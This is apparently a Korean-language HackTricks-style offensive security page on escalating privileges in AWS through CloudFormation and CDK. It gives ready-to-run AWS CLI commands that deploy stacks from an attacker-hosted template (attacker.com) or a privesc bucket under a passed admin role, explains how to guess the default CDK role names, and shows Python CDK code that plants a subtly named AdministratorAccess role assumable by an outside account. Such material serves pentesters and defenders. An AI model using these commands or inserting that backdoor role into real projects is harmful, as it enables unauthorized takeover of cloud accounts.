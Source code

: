 # AWS - Cloudformation Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## cloudformation

cloudformation에 대한 자세한 정보는 다음을 확인하세요:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### `iam:PassRole`, `cloudformation:CreateStack`

이 권한을 가진 공격자는 **지정된 역할의 권한으로 작업을 실행하기 위해** 자신의 서버에 호스팅된 사용자 정의 템플릿으로 **CloudFormation 스택**을 작성하여 **권한을 상승시킬 수 있습니다:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
다음 페이지에는 추가 권한 **`cloudformation:DescribeStacks`**가 있는 **익스플로잇 예제**가 있습니다:

{{#ref}}
iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md
{{#endref}}

**잠재적 영향:** 지정된 cloudformation 서비스 역할로의 권한 상승.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

이 경우 기존의 cloudformation 스택을 **악용하여** 업데이트하고 이전 시나리오와 같이 권한을 상승시킬 수 있습니다:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 권한은 **스택에 대한 `UpdateStack` 권한을 부여**하고 공격을 수행하는 데 사용할 수 있습니다.

**잠재적 영향:** 지정된 cloudformation 서비스 역할에 대한 권한 상승.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

이 권한이 있지만 **`iam:PassRole`**이 없는 경우에도 **사용된 스택을 업데이트**하고 **이미 연결된 IAM 역할을 악용**할 수 있습니다. 업데이트에서 역할을 지정하지 마십시오.

`cloudformation:SetStackPolicy` 권한은 **스택에 대한 `UpdateStack` 권한을 부여**하고 공격을 수행하는 데 사용할 수 있습니다.

**잠재적 영향:** 이미 연결된 cloudformation 서비스 역할에 대한 권한 상승.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

역할을 **전달하고 ChangeSet을 생성 및 실행**할 수 있는 권한이 있는 공격자는 **새 cloudformation 스택을 생성/업데이트하고 cloudformation 서비스 역할을 악용**할 수 있습니다. CreateStack 또는 UpdateStack과 마찬가지로.

다음 공격은 **ChangeSet 권한을 사용하여 스택을 생성하는**[ **CreateStack 공격의 변형**](#iam-passrole-cloudformation-createstack)입니다.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 권한을 사용하여 **스택에 대한 `ChangeSet` 권한을 부여**하고 공격을 수행할 수 있습니다.

**잠재적 영향:** cloudformation 서비스 역할에 대한 권한 상승.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

이 방법은 **IAM 역할**을 전달하지 않고 이전 방법과 유사하므로, 이미 연결된 역할을 **악용**할 수 있으며, 매개변수만 수정하면 됩니다:
```
--change-set-type UPDATE
```
**잠재적 영향:** 이미 연결된 cloudformation 서비스 역할로의 권한 상승.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

공격자는 이러한 권한을 악용하여 StackSets를 생성/업데이트하여 임의의 cloudformation 역할을 악용할 수 있습니다.

**잠재적 영향:** cloudformation 서비스 역할로의 권한 상승.

### `cloudformation:UpdateStackSet`

공격자는 passRole 권한 없이 이 권한을 악용하여 StackSets를 업데이트하고 연결된 cloudformation 역할을 악용할 수 있습니다.

**잠재적 영향:** 연결된 cloudformation 역할로의 권한 상승.

## AWS CDK

AWS cdk는 사용자가 이미 익숙한 언어로 인프라를 코드로 정의할 수 있도록 하는 도구 모음이며, 섹션을 쉽게 재사용할 수 있습니다. 그런 다음 CDK는 고급 코드를 (예: python) Cloudformation 템플릿(yaml 또는 json)으로 변환합니다.

CDK를 사용하려면 관리 사용자가 먼저 계정을 부트스트랩해야 하며, 이 과정에서 여러 IAM 역할이 생성됩니다. 여기에는 \*/\* 권한을 가진 *exec role*이 포함됩니다. 이러한 역할은 `cdk-<qualifier>-<name>-<account-id>-<region>` 형식의 이름 구조를 따릅니다. 부트스트랩은 계정당 지역별로 한 번만 수행해야 합니다.

기본적으로 CDK 사용자는 CDK를 사용하기 위해 필요한 역할을 나열할 수 있는 권한이 없으므로, 이를 수동으로 확인해야 합니다. 개발자의 머신이나 CI/CD 노드를 침해하면 이러한 역할을 가정하여 `cfn-exec` 역할을 사용하여 CFN 템플릿을 배포할 수 있는 능력을 부여받아 계정을 완전히 침해할 수 있습니다.

### 역할 이름 결정하기

`cloudformation:DescribeStacks` 권한이 있는 경우, 역할은 `CDKToolkit`이라는 스택에 정의되어 있으며, 거기에서 이름을 가져올 수 있습니다.

CDK 프로젝트를 빌드하고 배포하는 데 사용된 머신에 있는 경우, 프로젝트의 루트 디렉토리에서 `cdk.out/manafest.json`에서 가져올 수 있습니다.

또한 역할이 무엇인지에 대해 좋은 추측을 할 수 있습니다. `qualifier`는 여러 인스턴스의 CDK 부트스트랩을 동시에 배포할 수 있도록 역할에 추가된 문자열이지만, 기본값은 하드코딩되어 `hnb659fds`입니다.
```
# Defaults
cdk-hnb659fds-cfn-exec-role-<account-id>-<region>
cdk-hnb659fds-deploy-role-<account-id>-<region>
cdk-hnb659fds-file-publishing-role-<account-id>-<region>
cdk-hnb659fds-image-publishing-role-<account-id>-<region>
cdk-hnb659fds-lookup-role-<account-id>-<region>
```
### 프로젝트 소스에 악성 코드 추가

프로젝트 소스에 쓸 수 있지만 직접 배포할 수 없는 경우(예: 개발자가 로컬 머신이 아닌 CI/CD를 통해 코드를 배포하는 경우), 스택에 악성 리소스를 추가하여 환경을 손상시킬 수 있습니다. 다음은 공격자 계정이 가정할 수 있는 IAM 역할을 python CDK 프로젝트에 추가하는 방법입니다.
```python
class CdkTestStack(Stack):
def __init__(self, scope: Construct, construct_id: str, **kwargs) -> None:
super().__init__(scope, construct_id, **kwargs)

# ----------
# Some existing code.....
# ----------

role = iam.Role(
self,
"cdk-backup-role", # Role name, make it something subtle
assumed_by=iam.AccountPrincipal("1234567890"), # Account to allow to assume the role
managed_policies=[
iam.ManagedPolicy.from_aws_managed_policy_name("AdministratorAccess") # Policies to attach, in this case AdministratorAccess
],
)
```
## References

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
- [https://github.com/aws/aws-cdk-cli/blob/main/packages/aws-cdk/lib/api/bootstrap/bootstrap-template.yaml](https://github.com/aws/aws-cdk-cli/blob/main/packages/aws-cdk/lib/api/bootstrap/bootstrap-template.yaml)

{{#include ../../../../banners/hacktricks-training.md}}
